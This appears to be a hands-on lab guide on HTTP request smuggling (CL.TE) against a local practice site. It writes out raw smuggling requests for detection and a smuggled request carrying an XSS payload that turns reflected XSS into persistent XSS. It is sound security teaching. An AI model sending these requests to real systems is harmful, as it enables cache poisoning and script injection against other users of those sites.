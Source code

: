 
## LAB 1: HTTP/1.1 CL.TE
Duration: 00:20:00

For this first lab, you will need to add the following entry to your `hosts` file (`/etc/hosts` or `c:\windows\system32\drivers\etc\hosts`).
```
127.0.0.1 simplewebsite.gosec.co
```

Open `http://simplewebsite.gosec.co` in a browser to confirm that everything is running.


### HRS detection

The following request need to repeated ~10 times until you get `405 Not Allowed` (Method not allowed)
```
POST / HTTP/1.1
Host: simplewebsite.gosec.co
Content-Length: 79
Transfer-Encoding: chunked

0

G
```

Negative
: We need to repeated the following request multiple times. It is the result of connection pool usage between the proxy and the backend. There is more than one connection that are kept alive.

### Finding a XSS vector

There are two main vectors to execute Javascript on a system vulnerable to HRS.

 - Causing an open-redirect
 - Transforming a reflected XSS in a persistent XSS.

### From limited to persistent XSS

Injecting an HTTP request in the proxy pipeline.

```
POST / HTTP/1.1
Host: simplewebsite.gosec.co
Content-Length: 79
Transfer-Encoding: chunked

0

GET /contact.php?test=123"><img/src="xx"onerror="alert(1)"> HTTP/1.1
Foo:
```
